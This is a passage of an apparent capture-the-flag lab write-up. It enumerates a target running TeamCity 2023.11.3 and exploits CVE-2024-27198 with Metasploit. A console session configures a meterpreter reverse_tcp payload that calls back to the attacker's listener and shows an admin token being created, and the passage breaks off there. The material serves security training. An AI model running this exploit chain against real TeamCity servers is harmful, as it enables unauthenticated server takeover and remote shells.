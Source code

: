 Looks like there are two web servers running. The target seems to be running `Ubuntu`.

The website on `port 80` seems to be under maintenance. I tried fuzzing for files and directories but found nothing. Let's move on to port `50000`.

![](<Pasted image 20241005152849.png>){: w="500" h="300" .center }



`TeamCity Version 2023.11.3` seems to be running on this port. 

![](<Pasted image 20241005153050.png>){: w="400" h="300" .center }

## RED

### Flag 1

> What is the content of flag.txt in the user's home folder?

#### CVE-2024-27198
Looking for vulnerabilities in `TeamCity 2023.11.3 (build 147512)` I found `CVE-2024-27198`.

> [nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2024-27198) - CVE-2024-27198
> 
> In JetBrains TeamCity before 2023.11.4 authentication bypass allowing to perform admin actions.
{: .prompt-info }

Looking for ways to exploit this, I found an article on `rapid7`.

> [rapid7.com](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/) - CVE-2024-27198
> 
> CVE-2024-27198 allows for a complete compromise of a vulnerable TeamCity server by a remote unauthenticated attacker, including unauthenticated RCE.
{: .prompt-tip }

Let's use `Metasploit` as shown in `rapid7` to exploit this vulnerability.

> Metasploit - `exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198`
> 
> This module exploits an authentication bypass vulnerability in JetBrains TeamCity. An unauthenticated attacker can leverage this to access the REST API and create a new administrator access token. This token can be used to upload a plugin which contains a Metasploit payload, allowing the attacker to achieve unauthenticated RCE on the target TeamCity server.
{: .prompt-info }

```console
m3ga@kali:~$ msfconsole -q
msf6 > use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set rhosts 10.10.190.86
rhosts => 10.10.190.86
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set lhost tun0
lhost => 10.11.75.248
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set lport 53
lport => 53
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set rport 50000
rport => 50000
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 10.10.190.86:50000 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > run

[*] Started reverse TCP handler on 10.11.75.248:53 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.RngycmJwQ2swT2dnUjhPQmJka3JPLWtOT3Nn.NmIwZjY5OTktN2ZlNS00OWM2LThmNjgtY2QyOWUwOGYwMjk3
```